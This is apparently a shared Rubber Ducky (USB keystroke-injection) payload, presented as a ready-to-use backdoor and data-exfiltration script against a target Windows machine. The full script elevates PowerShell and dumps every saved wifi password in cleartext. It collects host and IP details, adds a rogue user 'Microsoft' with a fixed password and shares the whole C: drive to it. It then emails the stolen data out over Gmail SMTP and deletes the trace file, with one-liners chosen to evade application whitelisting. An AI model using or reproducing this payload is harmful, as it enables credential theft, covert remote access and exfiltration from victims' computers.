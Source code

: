 This simple script will grab all of the wifi passwords, external IP address, LAN address, and hostname of the target device and e-mail it to an address of your choice. I recommend you use a Gmail address for this. I have not had luck with Yahoo, Hotmail, etc...

It then creates a user called Microsoft, and shares C:\ out to the new user. My goal here was to use one liners to prevent this from being picked up by whitelisting applications (no .bat, .exe, etc...)
 
```
REM # Backdoor - Data Exfiltration
REM # Credit goes to Crumb93 and BrainEater from the Hak5 forums for the Wifi Password one liner
DELAY 1000
WINDOWS d
DELAY 450
WINDOWS r
DELAY 450
STRING powershell Start-Process powershell -Verb runAs
DELAY 30
ENTER
DELAY 500
ALT y
DELAY 1000
REM *****************
REM # We're going to grab all wifi passwords
REM *****************
STRING (netsh wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Format-Table -AutoSize > C:\Information.txt
ENTER
DELAY 500
REM *****************
REM # Now we'll grab Network Information (Local IP, Public IP, Hostname)
REM *****************
STRING $command = {hostname; Get-NetIpaddress | Where PrefixOrigin -EQ DHCP; Invoke-RestMethod http://ipinfo.io/json | Select -exp ip}
ENTER
DELAY 60
STRING $command.InvokeReturnAsIs() | Out-File C:\Information.txt -Append
ENTER
DELAY 400
REM *****************
REM # We're going to add a user
REM *****************
STRING NET USER Microsoft "l33t" /ADD
ENTER
DELAY 100
REM *****************
REM # Now we're going to share the C:\ drive out
REM *****************
STRING New-SmbShare -Name "Microsoft" -Path "C:\" -FullAccess "Microsoft"
ENTER
DELAY 100
REM *****************
REM # Let's e-mail ourselves and clean up
REM *****************
DELAY 1000
STRING $SMTPServer = 'raircom8@gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSSL = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('EMAILHERE', 'PASSWORDHERE!')
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'EMAILHERE'
ENTER
STRING $ReportEmail.To.Add('EMAILHERE')
ENTER
STRING $ReportEmail.Subject = 'Hello from the duck'
ENTER
STRING $ReportEmail.Body = (Get-Content C:\Information.txt | out-string)
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
DELAY 100
REM *****************
REM # Cleanup
REM *****************
STRING del C:\Information.txt
ENTER
STRING exit
ENTER
```
https://github.com/Crumb93